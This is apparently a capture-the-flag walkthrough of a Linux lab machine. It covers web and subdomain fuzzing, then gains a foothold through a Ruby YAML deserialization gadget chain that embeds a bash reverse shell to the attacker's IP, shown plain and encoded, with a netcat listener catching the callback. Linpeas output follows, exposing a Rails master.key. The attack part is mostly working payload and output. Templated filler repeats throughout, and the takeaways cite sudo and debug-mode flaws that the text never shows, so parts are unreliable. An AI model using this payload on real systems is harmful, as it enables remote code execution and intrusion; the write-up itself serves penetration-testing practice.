

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | Web application and exposed network services |
| Primary Entry Vector      | Web-based initial access |
| Privilege Escalation Path | Local enumeration -> misconfiguration abuse -> root |

## Credentials

No credentials obtained.

## Reconnaissance

---
💡 Why this works  
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 -x php,html,txt --dont-scan '/(css|fonts?|images?|img)/' -u http://$ip
```

```bash
✅[22:39][CPU:21][MEM:64][TUN0:192.168.45.166][/home/n0z0]
🐉 > feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 -x php,html,txt --dont-scan '/(css|fonts?|images?|img)/' -u http://$ip


 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.12.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.178.237
 🚫  Don't Scan Regex      │ /(css|fonts?|images?|img)/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ [200, 301, 302, 401, 403]
 💥  Timeout (secs)        │ 3
 🦡  User-Agent            │ feroxbuster/2.12.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      280c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       62l      101w      868c http://192.168.178.237/
200      GET       62l      101w      868c http://192.168.178.237/index.html
[####################] - 34s    18988/18988   0s      found:2       errors:0
[####################] - 33s    18988/18988   573/s   http://192.168.178.237/ 

```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
ffuf -H "Host: FUZZ.$domain"   -u http://$ip   -mc 200,301,302,403 -ac -ic -c -t 50  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

```bash
✅[2:43][CPU:24][MEM:68][TUN0:192.168.45.166][/home/n0z0]
🐉 > ffuf -H "Host: FUZZ.$domain"   -u http://$ip   -mc 200,301,302,403 -ac -ic -c -t 50  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.178.237
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.marshalled.pg
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200,301,302,403
________________________________________________

monitoring              [Status: 200, Size: 4045, Words: 956, Lines: 103, Duration: 84ms]
:: Progress: [114438/114438] :: Job [1/1] :: 581 req/sec :: Duration: [0:03:15] :: Errors: 0 ::

```

http://monitoring.marshalled.pg/

*Caption: Screenshot captured during this stage of the assessment.*


*Caption: Screenshot captured during this stage of the assessment.*


*Caption: Screenshot captured during this stage of the assessment.*

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
cat > payload.yml << 'EOF'
---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: bash -c "bash -i >& /dev/tcp/192.168.45.166/9000 0>&1"
          method_id: :resolve
EOF
```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
cat payload.yml | base64 | tr -d '\n' | python3 -c "
```

```bash
✅[3:36][CPU:45][MEM:81][TUN0:192.168.45.166][...Proving_Ground/Marshalled]
🐉 > cat payload.yml | base64 | tr -d '\n' | python3 -c "
import sys, urllib.parse
print(urllib.parse.quote(sys.stdin.read()))
"
LS0tCiAtICFydWJ5L29iamVjdDpHZW06Okluc3RhbGxlcgogICAgIGk6IHgKIC0gIXJ1Ynkvb2JqZWN0OkdlbTo6U3BlY0ZldGNoZXIKICAgICBpOiB5CiAtICFydWJ5L29iamVjdDpHZW06OlJlcXVpcmVtZW50CiAgIHJlcXVpcmVtZW50czoKICAgICAhcnVieS9vYmplY3Q6R2VtOjpQYWNrYWdlOjpUYXJSZWFkZXIKICAgICBpbzogJjEgIXJ1Ynkvb2JqZWN0Ok5ldDo6QnVmZmVyZWRJTwogICAgICAgaW86ICYxICFydWJ5L29iamVjdDpHZW06OlBhY2thZ2U6OlRhclJlYWRlcjo6RW50cnkKICAgICAgICAgIHJlYWQ6IDAKICAgICAgICAgIGhlYWRlcjogImFiYyIKICAgICAgIGRlYnVnX291dHB1dDogJjEgIXJ1Ynkvb2JqZWN0Ok5ldDo6V3JpdGVBZGFwdGVyCiAgICAgICAgICBzb2NrZXQ6ICYxICFydWJ5L29iamVjdDpHZW06OlJlcXVlc3RTZXQKICAgICAgICAgICAgICBzZXRzOiAhcnVieS9vYmplY3Q6TmV0OjpXcml0ZUFkYXB0ZXIKICAgICAgICAgICAgICAgICAgc29ja2V0OiAhcnVieS9tb2R1bGUgJ0tlcm5lbCcKICAgICAgICAgICAgICAgICAgbWV0aG9kX2lkOiA6c3lzdGVtCiAgICAgICAgICAgICAgZ2l0X3NldDogYmFzaCAtYyAiYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE2Ni85MDAwIDA%2BJjEiCiAgICAgICAgICBtZXRob2RfaWQ6IDpyZXNvbHZlCg%3D%3D

```


*Caption: Screenshot captured during this stage of the assessment.*

Reverse shell callback succeeded:
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
nc -lvnp 9000
```

```bash
❌[3:38][CPU:25][MEM:76][TUN0:192.168.45.166][/home/n0z0]
🐉 > nc -lvnp 9000
listening on [any] 9000 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.237] 40184
bash: cannot set terminal process group (854): Inappropriate ioctl for device
bash: no job control in this shell
rails@marshalled:/var/www/rails-app$

```

Retrieved local.txt:
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
cat /home/dev-acc/local.txt
```

```bash
rails@marshalled:/var/www/rails-app$ cat /home/dev-acc/local.txt
a4662532ec857968e5fb92979307a6f1

```

💡 Why this works  
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
╔══════════╣ Analyzing SSH Files (limit 70)


-rw-r--r-- 1 rails rails 222 Nov 15  2022 /home/rails/.ssh/known_hosts
|1|Ny5PTy8BxZ95InsL1XllMB9OdhM=|zgzuBsuGFqEay4hVk+X9LrqOZ5o= ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAP9bCnwUhhk+06oPqLMrnsycYxMV77fLSN6SXyS/N6pQLcfnyaTt8MF1P+54AM5Vt2swTjXBog/WgPVVCM/UNE=

```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
╔══════════╣ Analyzing Jenkins Files (limit 70)
-rw------- 1 rails rails 32 Sep 12  2022 /var/www/rails-app/config/master.key
82cd9abff61208fba4746781bcbb5c9d

```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
╔══════════╣ Users with console
dev-acc:x:1001:1001::/home/dev-acc:/bin/bash
rails:x:1000:1000::/home/rails:/bin/bash
root:x:0:0:root:/root:/bin/bash

```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports
tcp     LISTEN   0        4096       127.0.0.53%lo:53            0.0.0.0:*
tcp     LISTEN   0        128              0.0.0.0:22            0.0.0.0:*
tcp     LISTEN   0        1024           127.0.0.1:3000          0.0.0.0:*       users:(("ruby",pid=854,fd=13))
tcp     LISTEN   0        511              0.0.0.0:80            0.0.0.0:*


```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
╔══════════╣ PATH
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-path-abuses
/home/rails/.rbenv/shims:/home/rails/.rbenv/bin:/home/rails/.rbenv/bin:/home/rails/.rbenv/shims:/home/rails/.rbenv/bin:/home/rails/.rbenv/bin:/home/rails/.rbenv/versions/2.7.2/lib/ruby/gems/2.7.0/bin:/home/rails/.rbenv/versions/2.7.2/bin:/home/rails/.rbenv/libexec:/home/rails/.rbenv/plugins/ruby-build/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin


```

💡 Why this works  
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Validate framework debug mode and error exposure in production-like environments.
- Restrict file permissions on scripts and binaries executed by privileged users or schedulers.
- Harden sudo policies to avoid wildcard command expansion and scriptable privileged tools.
- Treat exposed credentials and environment files as critical secrets.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- feroxbuster: https://github.com/epi052/feroxbuster
- Nuclei: https://github.com/projectdiscovery/nuclei
- GTFOBins: https://gtfobins.org/
- HackTricks Privilege Escalation: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html
